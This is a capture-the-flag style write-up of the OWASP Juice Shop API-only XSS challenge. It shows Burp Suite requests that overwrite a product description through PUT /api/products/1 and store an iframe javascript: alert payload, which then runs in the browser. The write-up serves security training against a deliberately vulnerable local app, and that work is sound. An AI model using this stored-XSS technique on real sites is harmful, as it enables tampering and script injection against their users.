 ```yaml
---
id: api-only-xss
title: API Only XSS
sidebar_label: API Only XSS
sidebar_position: 2
---
```


# API-only XSS Challenge Report

:::danger[Only for Testing Purposes]
This tool is intended for educational and authorized penetration testing purposes only. Unauthorized use of this tool against systems that you do not have explicit permission to test is illegal and unethical.
:::

**Project**: OWASP Juice Shop - API-only XSS Challenge (XSS) <br/ >
**Tools**: Kali Linux with Burp Suite <br/ >
**Author**: Pascal Nehlsen <br/ >
**Portfolio**: [https://www.pascal-nehlsen.de/](https://www.pascal-nehlsen.de/) <br/ >
**GitHub Link**: [https://github.com/PascalNehlsen/juice-shop-challenges/blob/main/challenges/api-only-xss.md](https://github.com/PascalNehlsen/juice-shop-challenges/blob/main/challenges/api-only-xss.md)

## Table of Contents

1. [Introduction](#Introduction)
2. [Objective](#Objective)
3. [Approach](#Approach)
   - [Step 1: Information Gathering](#step-1-information-gathering)
   - [Step 2: Analyzing API Endpoints](#step-2-analyzing-api-endpoints)
   - [Step 3: Injecting XSS Payload](#step-3-injecting-xss-payload)
4. [Conclusion](#Conclusion)

### Introduction

The OWASP Juice Shop is a deliberately vulnerable web application designed to demonstrate security issues, including Cross-Site Scripting (XSS). This report details the steps I followed to complete the API-only XSS challenge.

### Objective

The objective of this challenge was to exploit an XSS vulnerability through the API endpoints of the Juice Shop application. The approach involved embedding malicious scripts into a product's description to see if these would execute in the browser. Successfully completing the challenge required persisting an XSS payload within the application.

### Approach

#### Step 1: Information Gathering

To identify where persistent data is stored within the shop, I examined product descriptions as a likely target. Using Burp Suite's "Intercept" feature, I intercepted the HTTP requests within the application to analyze the API calls involved.

<div align="center">

![Information Gathering](../../../assets/images/juice-shop/api-only-xss/information.png)

</div>

Upon reviewing the HTTP history, I found a `GET` request to `/api/Quantitys/`. I then sent this request to Burp Suite's Repeater tool for modification. By changing the API endpoint to `/api/Products/`, I accessed a complete JSON response containing all product details.

Sample Product in JSON Format:

```json
{
  "id": 1,
  "name": "Apple Juice (1000ml)",
  "description": "The all-time classic.",
  "price": 1.99,
  "deluxePrice": 0.99,
  "image": "apple_juice.jpg",
  "createdAt": "2024-10-24T10:01:58.486Z",
  "updatedAt": "2024-10-24T10:01:58.486Z",
  "deletedAt": null
}
```

#### Step 2: Analyzing API Endpoints

After identifying the product data, I further explored the Juice Shop API endpoints. By sending an `OPTIONS` request to `/api/Products/`, I confirmed that the API supports standard HTTP methods (GET, POST, PUT, PATCH).

```bash
OPTIONS /api/Products/ HTTP/1.1
```

Since attempts to update product data with the `PATCH` method were unsuccessful (resulting in a 500 status code), I opted to use the `PUT` method, which replaces data in its entirety. Additionally, I set the `Content-Type` to `application/json`, as the GET response data format was JSON. With IDs listed in the JSON data, I accessed the first product directly via `/api/products/1`.

I first tested updating the product description without any XSS payload:

**PUT Request to Update Product Description**

```bash
PUT /api/products/1 HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/json
Connection: keep-alive

{
"description": "OWASP is King"
}
```

The server responded with a 200 status code, confirming the update:

```json
{
  "status": "success",
  "data": {
    "id": 1,
    "name": "Apple Juice (1000ml)",
    "description": "OWASP is King",
    "price": 1.99,
    "deluxePrice": 0.99,
    "image": "apple_juice.jpg",
    "createdAt": "2024-10-24T10:01:58.486Z",
    "updatedAt": "2024-10-24T11:06:53.363Z",
    "deletedAt": null
  }
}
```

On checking the OWASP Juice Shop UI, the product description was successfully updated.

<div align="center">

![New Product](../../../assets/images/juice-shop/api-only-xss/new-product.png)

</div>

#### Step 3: Injecting XSS Payload

To complete the challenge, I attempted to add an iframe to the description with a JavaScript payload:

```json
{
  "description": "<iframe src=\"javascript:alert(`xss`)\">"
}
```

When testing without escaped double quotes, the server returned a 500 error due to syntax issues. Adding backslashes before the double quotes (`\"`) allowed the payload to be processed, resulting in a 200 status code.

Upon refreshing the OWASP Juice Shop page, I observed the modified product description. The XSS payload executed as intended when viewing the product, confirming the successful exploitation of the XSS vulnerability.

<div align="center">

![Information Gathering](../../../assets/images/juice-shop/api-only-xss/result.png)

</div>

### Conclusion

This test successfully completed the API-only XSS Challenge by embedding a persistent XSS payload in the description of the Apple Juice product through a direct API request, bypassing the web frontend.

<div align="center">

![Challenge Accepted](../../../assets/images/juice-shop/api-only-xss/challenge-accept.png)

</div>
